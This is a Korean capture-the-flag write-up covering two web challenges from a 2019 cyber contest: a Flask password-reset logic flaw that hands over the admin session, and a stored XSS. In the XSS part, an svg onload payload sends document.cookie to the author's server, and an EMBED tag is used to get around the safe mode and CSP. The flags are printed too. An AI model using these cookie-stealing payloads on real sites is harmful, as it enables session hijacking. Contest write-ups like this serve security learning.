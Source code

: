 # 2019 사이버작전 경연대회
1.1 Hidden Command(100)
1.2 The Camp(413)

# 1.1 Hidden Command(100)
게시판 사이트가 있고, flask 소스코드가 주어졌다. 처음에 사이트 구조 파악할때 CTF에 굳이 비밀번호 찾기를 왜 만들었을까? 라는 고민을 했었는데 정작 해당 함수는 주의깊게 살펴보지 않았다. 아래는 비밀번호를 찾는 forget() 함수의 코드다.
``` PYTHON
@frontend.route("/forget", methods=["GET", "POST"])
def forget():
    form = ForgetForm(request.form)
    msg = None
    if request.method == "POST" and form.validate():
        msg = "User not found"
        user = User.query.filter_by(username = form.username.data, email = form.email.data).first()
        if user:
            new_password = rand_password(10)
            # 랜덤 패스워드를 통해 DB에 계정 새로 생성
            new_user = User(form.username.data, new_password, form.email.data)

            # 기존 계정은 admin으로 덮어쓴다.
            clear_user(user)
            db_session.add(new_user)

            # 게시글 작성자를 모두 admin으로 바꾼다.
            board_lst = Board.query.filter_by(username = form.username.data).all()
            for b in board_lst:
                b.username = admin_username

            db_session.commit()
            return render_template("forget_res.html", password = new_password)
    return render_template("forget.html", msg = msg, form = form)
```
주석을 달아놓은 것처럼 아이디와 이메일이 일치하면 DB에 새로운 랜덤 비밀번호로 계정을 생성하고 기존 계정은 admin으로 덮어쓰고, 기존 게시글 작성자를 모두 admin으로 바꾼다. 이 함수에서 취약점이 발생하는데, 로그인한 상태에서 forget으로 이동할 수 있는 정상적인 방법은 없다. 하지만 url을 통해 접근하여 비밀번호 찾기를 진행하게 되면 내 계정은 새로 생기고, 기존 계정은 admin이 되므로 `현재 맺어져있는 세션이 admin`이 되게 된다. admin이 작성한 첫 번째 게시물을 확인하면 플래그가 나온다.  
flag : `FLAG{N0t_s3cur3_4t_411}`

# 1.2 The Camp(413)
군인에게 편지를 쓸 수 있는 홈페이지다. 홈, 편지쓰기, 편지보기 이렇게 3개의 탭으로 구성되어있다. 편지를 쓰면 서버에 편지가 올라가고, 친구에게 전송하기 버튼을 눌러야 전송이 된다. 전송이 되면 관리자가 열람 한 후 전달되며, 관리자가 열람했는지 안했는지 알려준다. 친절하게 세션을 따라고 문제에서 알려주었으니 다음과 같은 페이로드로 세션을 따면 된다.
```html
</textarea>
	<svg/onload=window.location.href='http://내서버/sasa?session='+document.cookie>
<textarea>
```
그런데 내가 편지를 확인할 때는 세션이 잘 오는데 관리자가 확인했다고 떴음에도 관리자의 세션이 오지 않았다. 자세히 살펴보니 관리자가 보는 페이지는 `세이프 모드`가 걸려있었다. 세이프모드는 인자를 전달해서 동작시킬 수 있는데 헤더를 잘 살펴보니 CSP가 걸려있었다. EMBED 태그를 이용해서 세이프모드가 걸리지 않은 페이지를 편지에 삽입하여 세션 탈취를 시도했다.
``` HTML
</textarea>
	<EMBED SRC="이전에 작성한 공격 편지주소" type="text/html" AllowScriptAccess="always">
</EMBED><textarea>
```
관리자 세션을 탈취했다. 세션 외에도 `cred`라는 플래그같이 생긴 쿠키도 존재했다. 두 쿠키 모두 적용했는데 별다른 변화가 없었다. HOME에서 소스를 보면 secret.php가 숨겨져 있음을 알 수 있다. 이 페이지에 접근하면 관리자 세션을 탈취했음에도 관리자가 아니라고 뜬다. `.secret.php.swp` 임시저장 파일이 남아있었고(이건 좀,,,), 이를 다운받아 보면 여러 페이지가 더 존재함을 알 수 있다. 최종적으로 탈취한 세션을 가지고 `http://52.78.85.107/admin.phar/flag.php` 에 접근하면 플래그를 던져준다.
```
Here is flag: FLAG{w0000h_RainbowReflect_PHP}
```
flag : `FLAG{w0000h_RainbowReflect_PHP}`
